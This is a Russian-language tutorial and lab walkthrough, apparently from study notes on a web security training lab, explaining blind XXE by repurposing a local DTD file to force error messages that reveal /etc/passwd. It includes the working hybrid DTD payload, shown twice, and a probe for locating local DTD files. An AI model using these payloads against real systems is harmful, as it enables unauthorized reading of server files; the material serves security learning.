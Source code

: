 # Использование слепого XXE путем повторного использования локального DTD

Предыдущая техника отлично работает с внешним DTD, но она обычно не работает с внутренним DTD, который полностью указан в элементе DOCTYPE. Это связано с тем, что техника подразумевает использование XML-параметрической сущности в определении другой параметрической сущности. Согласно спецификации XML, это разрешено во внешних DTD, но не во внутренних. (Некоторые парсеры могут это допускать, но многие — нет.)

### Слепой XXE при блокировке внеполосных взаимодействий

Когда внеполосные взаимодействия заблокированы, вы не можете извлечь данные через внешние подключения или загрузить внешний DTD. Однако вы можете вызвать сообщения об ошибках, содержащие конфиденциальные данные, используя лазейки в спецификации XML.

Если DTD документа использует гибрид внутренних и внешних деклараций, внутренний DTD может переопределять сущности, объявленные во внешнем DTD. Это позволяет использовать технику XXE на основе ошибок, если сущность параметра XML переопределяет сущность из внешнего DTD.

### Пример атаки

Допустим, на сервере существует файл DTD по пути `/usr/share/yelp/dtd/docbookx.dtd`, который содержит сущность с именем `ISOamso`. Злоумышленник может отправить гибридный DTD:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Этот DTD выполняет следующие шаги:
1. Определяет сущность `local_dtd`, содержащую содержимое локального файла DTD.
2. Переопределяет сущность `ISOamso`, чтобы включить атаку XXE на основе ошибок.
3. Использует `local_dtd`, чтобы интерпретировать внешний DTD с переопределенной сущностью.

### Поиск локальных файлов DTD

Чтобы найти подходящий файл DTD, вы можете проверить его существование, отправив полезную нагрузку, вызывающую ошибку при отсутствии файла:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

Если файл существует, получите его копию для анализа сущностей, которые можно переопределить.

---

## Пример лабораторной работы

В этой лаборатории функция «Проверка запасов» анализирует XML-данные, но не отображает результат.

Для решения лаборатории вызовите сообщение об ошибке, содержащее содержимое файла `/etc/passwd`.

### Шаги выполнения

1. Выберите любой продукт:

![Список продуктов](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

2. Нажмите "Проверить наличие на складе":

![Кнопка проверки](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

3. В **Proxy → HTTP History** выберите POST-запрос к `/product/stock` и отправьте его в **Repeater**:

![POST-запрос](https://github.com/user-attachments/assets/f2febc3e-4ab7-441e-8fb3-04990746f99f)

4. Вставьте гибридный DTD:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

5. Получите результат с содержимым `/etc/passwd`:

![Результат /etc/passwd](https://github.com/user-attachments/assets/e6f9df34-6e44-46ea-81f9-16d3e6848ab3)
